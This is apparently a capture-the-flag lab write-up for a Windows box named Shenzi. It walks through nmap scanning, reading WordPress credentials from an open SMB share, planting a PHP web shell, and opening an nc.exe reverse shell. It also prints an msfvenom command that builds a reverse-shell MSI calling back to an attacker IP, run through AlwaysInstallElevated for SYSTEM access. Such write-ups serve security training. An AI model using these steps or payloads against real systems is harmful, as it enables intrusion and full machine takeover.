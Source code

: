 # Shenzi

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.55 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 13:46 +08
Nmap scan report for 192.168.201.55
Host is up (0.18s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Lots of ports here. FTP doesn't allow for anonymous access.&#x20;

### SMB Access --> WP Creds

`smbmap` shows that there are a few shares we can access:

```
$ smbmap -u guest -p '' -H 192.168.201.55            
[+] IP: 192.168.201.55:445      Name: 192.168.201.55                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
```

The share had a few interesting files:

```
$ smbclient -U guest //192.168.201.55/Shenzi         
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 23:45:09 2020
  ..                                  D        0  Thu May 28 23:45:09 2020
  passwords.txt                       A      894  Thu May 28 23:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 23:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 23:45:09 2020
  why.tmp                             A      213  Thu May 28 23:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 23:45:09 2020
```

`passwords.txt` contained some credentials to a Wordpress instance, while the rest of the files were rather uninteresting:&#x20;

```
$ cat passwords.txt
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

### Web Enumeration --> WP RCE

Port 80 shows the default XAMPP page:

<figure><img src="../../../.gitbook/assets/image (94) (5).png" alt=""><figcaption></figcaption></figure>

There was a PHPInfo page that we could view for more clues.&#x20;

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

The only interesting thing to note is that the user is named `shenzi` on the machine. We need to be finding this wordpress instance. However, all directory scans failed to find any instance of `wp-content` or `wp-admin`.&#x20;

I was stuck here for a while, until I visited `/shenzi` to test, and it worked!

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

With this, we can easily login to the admin panel and replace one of the PHP files with a web shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell by downloading `nc.exe` onto the machine and executing it:

<figure><img src="../../../.gitbook/assets/image (57) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated --> SYSTEM

I ran `winPEAS.exe` to enumerate the machine for me. It picked up on AlwaysInstallElevated being misconfigured:

<figure><img src="../../../.gitbook/assets/image (545) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can generate an MSI payload using `msfvenom` and run it on the system, which would give us a reverse shell as the SYSTEM user.&#x20;

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.191 LPORT=21 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, transfer this file over to the machine and run `msiexec` on it:

```
C:\Windows\Tasks>msiexec /quiet /qn /i shell.msi
```

This would give us a reverse shell as the SYSTEM user on a listener port:

<figure><img src="../../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>
